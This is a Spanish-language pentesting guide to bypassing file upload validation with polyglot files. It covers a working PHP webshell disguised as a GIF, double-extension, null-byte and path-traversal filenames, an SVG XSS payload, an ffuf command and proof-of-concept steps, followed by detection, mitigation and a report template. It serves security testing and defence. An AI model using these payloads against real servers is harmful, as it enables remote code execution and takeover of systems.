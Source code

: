 # File Upload Bypass y Polyglots – Guía Completa

## Resumen

El upload bypass consiste en saltarse las validaciones de carga de archivos para subir contenido malicioso (webshells, RCE, scripts) al servidor. Los *polyglots* son archivos que cumplen con varios formatos/validaciones a la vez, pasando controles anti-abuso y permitiendo ejecución code, LFI o explotación encadenada. Es una vía recurrente para la toma de control total del sistema.

## Contexto

Aplicaciones web modernas permiten la carga de archivos para imágenes, documentos, o multimedia. Para evitar ataques, suelen implementar validación por extensión, tipo MIME, o inspección de firmas. Sin embargo, validaciones incompletas pueden ser engañadas por bypass de extensión, payloads embebidos, o headers manipulados (polyglot). Combinando técnicas es común obtener ejecución de código (RCE), XSS, LFI, SSRF o persistencia encubierta.

## Metodología

### 1. Identificación de Superficies de Upload

- Formularios de carga (`input type="file"`)
- APIs REST/GraphQL (`POST /upload`, multipart/form-data)
- Endpoints de perfil, avatar, reportes y adjuntos
- Automatización: usar ffuf, Burp, ParamSpider para mapear rutas /upload, /avatar, /profile-pic

### 2. Técnicas Comunes de Bypass

#### 2.1 Bypass de Extensión

- Doble extensión: `shell.php.jpg`, `cmd.asp;.jpg`
- Extensiones Unicode: `shell.php%00.jpg`, `file.php%20`
- MIME spoofing: enviar `Content-Type: image/jpeg` pero payload PHP

#### 2.2 Bypass de Tipo MIME

- Manipular encabezados en multipart:

```
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/gif
```

- Cambiar Content-Type por `application/octet-stream`, o el requerido

#### 2.3 Polyglots

- Payloads válidos para varios contextos. Ejemplo:
  - GIF89a; luego código PHP (permitido subir imagen, pero ejecuta PHP si es procesado por el servidor)

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

- PDF con JS o PHP oculto
- ZIP con webshell y files legítimos ("Double extension inside ZIP")

#### 2.4 Bypass de Filtros de Contenido

- Codificar payload (`base64`, `URL encode`)
- Fragmentar código entre múltiples líneas/comentarios
- Null Byte (`%00`) para truncar validaciones en lenguajes antiguos

#### 2.5 Path Traversal en Upload

- Manipular el nombre del archivo:
  `../../../../var/www/html/shell.php`
- Bypass por Windows/Unix separator:
  `..\\..\\..\\webroot\\shell.php`

### 3. Ejemplos Detallados

#### Case 1: PHP Webshell Polyglot (GIF)

Archivo `shell.php`

```
GIF89a;
<?php system($_GET['cmd']); ?>
```

Subido y accedido vía: `/uploads/shell.php?cmd=id`

#### Case 2: Double Extension \& Trailing Dot

`shell.php.jpg.`

- Servidor puede truncar la extensión final.

#### Case 3: SVG XSS Polyglot

Archivo SVG con payload JS ejecutable:

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script><![CDATA[alert(document.domain)]]></script>
</svg>
```

Si es servida con Content-Type SVG, ejecuta JS.

## Herramientas y Automatización

- **Burp Suite Extensiones**: "Upload Scanner", "File Upload Attack"
- **ffuf**:

```bash
ffuf -u "https://victima.com/upload" -w bypass-list.txt -t 10 -H "Content-Type: multipart/form-data"
```

- **PayloadsAllTheThings**: sección “Upload Polyglots”
- **PolyglotGenerator.js**: https://github.com/cujanovic/PolyglotGenerator

## PoC Manual

1. Subir archivo `shell.php.jpg` con payload webshell.
2. Confirmar subida y ejecución mediante petición HTTP a `/uploads/shell.php?cmd=whoami`.
3. Probar variantes de extensión y nombre:
   - `shell.jpg.php%20`
   - `shell.asp;.jpg`
   - Archivos ZIP con files travesed
4. Si el upload almacena el archivo, revisar si es ejecutado como código o tratado como estático.

## Explotación Avanzada

- Polyglots para eludir WAF/AV (payloads válidos como PDF/GIF/ZIP/JPG pero ejecutan JS, PHP o comandos)
- Combinación con LFI: upload del archivo, luego exploitation con LFI en otro endpoint
- Persistencia: backdoor bajo nombre "inocente", firmado como imagen legítima

## Impacto

- **RCE**: Ejecución remota con privilegios del proceso web
- **Webshell persistente** para pivot y movimiento lateral
- **XSS/storage XSS** via SVG, PDF u otros formatos
- **Bypass AV/WAF**: Obsfuscación y firmas mixtas
- **SSRF/extensión**: si el archivo hace requests internos al ser ejecutado

## Detección

- Revisar rutas de upload en logs (`uploads/`, `/files/`, `/avatars/`) para extensiones inesperadas
- Extraer hashes/firma de archivos cargados
- Detectar doble extensión o scripts en ficheros binarios
- Listar uploads y buscar entropía anómala, presencia de marcas PHP/JS en imágenes

## Mitigación

1. **Whitelist de extensiones y MIME (servidor y cliente)**
2. **Renombrado y canonicalización** antes de guardar (no usar nombre original usuario)
3. **Almacenamiento fuera de webroot** (no ejecutable)
4. **Validación de contenido binario** (análisis de firma, no solo extensión/MIME)
5. **Deshabilitar ejecución en directorio de uploads**
6. **Escapado y sanitizado exhaustivo en preview/descarga**
7. **Principio de mínimo privilegio**: usuario web sin permisos escalados

## Errores Comunes

- Validar solo por extensión o MIME y no firmar contenido
- Permitir doble extensión o null byte truncation
- No limitar path o permitir traversal en uploads
- Almacenar uploads en webroot ejecutable

## Reporte

**Título:** Upload Bypass y Polyglot – Ejecución No Autorizada a Través de Archivos Maliciosos
**Resumen Ejecutivo:** El endpoint `/upload` permite la subida de archivos que pasan validaciones superficiales pero contienen código malicioso (polyglot), permitiendo ejecución remota (RCE) o XSS.
**Pasos de Reproducción:**

1. Subir archivo `shell.php.jpg` (o gif/php polyglot)
2. Acceder vía GET a `/uploads/shell.php?cmd=id`
3. Observar ejecución de comando
   **Mitigación Recomendada:** Whitelist, no ejecutar archivos subidos, analizar firma y almacenar fuera de webroot.
